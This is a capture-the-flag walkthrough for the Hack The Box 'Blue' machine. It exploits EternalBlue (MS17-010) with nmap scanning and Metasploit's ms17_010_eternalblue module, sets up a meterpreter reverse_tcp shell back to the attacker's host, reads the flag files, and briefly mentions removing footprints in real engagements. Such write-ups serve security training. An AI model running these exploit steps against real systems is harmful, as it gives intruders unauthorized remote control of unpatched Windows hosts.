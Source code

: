# Blue

EternalBlue is a notorious Windows vulnerability that was first discovered in 2017 and has had a significant impact on computer security. This vulnerability primarily affects the Microsoft Windows operating system, particularly versions that lack the latest security updates. EternalBlue exploits a flaw in the Windows Server Message Block (SMB) protocol, which is used for sharing files and printers across a network. When exploited, it allows an attacker to remotely execute arbitrary code on a vulnerable system without user interaction.

One of the most infamous exploits that leveraged the EternalBlue vulnerability was the WannaCry ransomware attack in May 2017. WannaCry rapidly spread across the globe, infecting hundreds of thousands of computers in over 150 countries, causing widespread panic and financial damage. Microsoft subsequently released emergency patches to address the vulnerability, but many organizations had failed to apply these updates in a timely manner, highlighting the importance of regular system patching and updates to mitigate such threats.

EternalBlue serves as a stark reminder of the critical role that cybersecurity plays in today's interconnected world. It underscores the necessity of promptly applying security patches and maintaining up-to-date software to protect against the ever-evolving threats posed by cybercriminals.

## Initial Assesment

### HTB Machine: Blue

- **IP Address:** [The target's IP address will be different for each user, substitute with the one given on HTB]
- **Difficulty:** Easy
- **Operating System:** Windows

### Step 1: Reconnaissance

1. **Start with a Ping Sweep:**
   First, check if the target machine is up and reachable.
   ```bash
   ping -c 4 <target-ip>
   ```

2. **Port Scanning with Nmap:**
   Perform a full TCP scan to identify open ports and services.
   ```bash
   nmap -sC -sV -oA blue_initial <target-ip>
   ```
   **Flags:**
   - `-sC`: Runs default scripts.
   - `-sV`: Detects service versions.
   - `-oA`: Outputs in all formats (Nmap, Grepable, and XML).

   **Output:**
   ```
   PORT      STATE SERVICE      VERSION
   135/tcp   open  msrpc        Microsoft Windows RPC
   139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
   445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds
   3389/tcp  open  ms-wbt-server Microsoft Terminal Services
   ```

   The critical port here is `445`, which is commonly associated with SMB (Server Message Block).

### Step 2: Vulnerability Analysis

1. **Search for SMB Vulnerabilities:**
   Given that port 445 is open, we’ll check for known vulnerabilities, specifically *EternalBlue* (MS17-010).
   ```bash
   nmap --script smb-vuln-ms17-010 -p445 <target-ip>
   ```

   **Expected Output:**
   ```
   Host is likely VULNERABLE to MS17-010!
   ```

### Step 3: Exploitation

1. **Use Metasploit to Exploit EternalBlue:**
   EternalBlue is a well-known vulnerability that allows remote code execution on Windows machines.

   - Start the Metasploit framework:
     ```bash
     msfconsole
     ```
   - Search for the EternalBlue exploit:
     ```bash
     search eternalblue
     ```
   - Use the exploit:
     ```bash
     use exploit/windows/smb/ms17_010_eternalblue
     ```
   - Set the target IP:
     ```bash
     set RHOSTS <target-ip>
     ```
   - Set the payload (reverse shell):
     ```bash
     set payload windows/x64/meterpreter/reverse_tcp
     ```
   - Set the local IP (your IP) and port for the reverse shell:
     ```bash
     set LHOST <your-ip>
     set LPORT 4444
     ```
   - Execute the exploit:
     ```bash
     exploit
     ```

   If successful, you will get a Meterpreter shell.

### Step 4: Post-Exploitation

1. **Check System Info:**
   ```bash
   sysinfo
   ```

2. **Enumerate Users:**
   ```bash
   getuid
   ```

3. **Privilege Escalation:**
   Since we already have SYSTEM-level access from the exploit, we do not need further privilege escalation.

### Step 5: Capture the Flags

1. **Locate the User Flag:**
   Navigate to the user’s Desktop and retrieve the `user.txt` flag.
   ```bash
   cd C:\Users\<username>\Desktop
   cat user.txt
   ```

2. **Locate the Root Flag:**
   Navigate to the Administrator’s Desktop and retrieve the `root.txt` flag.
   ```bash
   cd C:\Users\Administrator\Desktop
   cat root.txt
   ```

### Step 6: Clean Up

Since this is a practice environment, there's no need to clean up, but in a real engagement, removing your footprints is crucial.
